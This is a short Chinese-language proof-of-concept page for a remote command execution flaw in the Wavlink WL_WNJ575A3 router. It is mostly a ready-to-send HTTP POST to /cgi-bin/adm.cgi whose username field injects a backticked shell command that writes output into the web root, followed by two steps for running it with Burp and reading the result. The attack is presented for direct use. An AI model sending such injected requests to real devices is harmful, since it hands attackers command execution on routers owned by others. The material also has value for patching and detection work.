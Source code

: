 # 睿因 Wavlink WL_WNJ575A3 远程命令执行

## 睿因 Wavlink WL_WNJ575A3 远程命令执行
影响版本

Wavlink WL_WNJ575A3 v.R75A3_V1410_220513

漏洞代码

POC
```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/100.0.4896.60 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close

page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass= 12345678


```
1.Burp 发包执行命令
2.访问“data.html”查看命令执行结

